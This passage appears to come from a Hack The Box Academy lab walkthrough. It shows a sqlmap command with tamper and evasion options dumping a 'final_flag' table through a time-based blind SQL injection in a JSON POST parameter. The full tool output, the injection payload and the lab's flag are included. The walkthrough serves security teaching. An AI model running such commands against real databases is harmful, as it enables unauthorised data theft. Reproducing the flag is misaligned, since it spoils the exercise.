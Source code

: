 Therefore, instead of letting `sqlmap` fetch unwanted data, students can stop it (`Ctrl` + `C`) and only make it fetch the table `final_flag` within the database `production`, finding the flag `HTB{n07_50_h4rd_r16h7?!}`:

```shell
sqlmap -r request.req --batch --dump --level 5 --risk 3 --random-agent --tamper=between --technique=t -D production -T final_flag
```
```
┌─[eu-academy-1]─[10.10.14.228]─[htb-ac413848@htb-7lpyzphcoo]─[~]
└──╼ [★]$ sqlmap -r request.req --batch --dump --level 5 --risk 3 --random-agent --tamper=between --technique=t -D production -T final_flag
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.8#stable}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:54:34 /2022-11-29/

[18:54:34] [INFO] parsing HTTP request from 'request.req'
[18:54:34] [INFO] loading tamper module 'between'
[18:54:34] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.2a1pre) Gecko/20110208 Firefox/4.2a1pre' from file '/usr/share/sqlmap/data/txt/user-agents.txt'
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[18:54:34] [INFO] testing connection to the target URL

<SNIP>

sqlmap identified the following injection point(s) with a total of 69 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"1 AND (SELECT 7393 FROM (SELECT(SLEEP(5)))ZWNA)"}
---
[18:55:40] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[18:55:40] [INFO] the back-end DBMS is MySQL
[18:55:40] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:55:45] [INFO] fetching columns for table 'final_flag' in database 'production'
[18:55:45] [INFO] retrieved: 
[18:55:55] [INFO] adjusting time delay to 1 second due to good response times
2
[18:55:55] [INFO] retrieved: id
[18:56:01] [INFO] retrieved: content
[18:56:27] [INFO] fetching entries for table 'final_flag' in database 'production'
[18:56:27] [INFO] fetching number of entries for table 'final_flag' in database 'production'
[18:56:27] [INFO] retrieved: 1
[18:56:28] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)       
HTB{n07_50_h4rd_r16h7?!}
[18:57:57] [INFO] retrieved: 1
Database: production
```
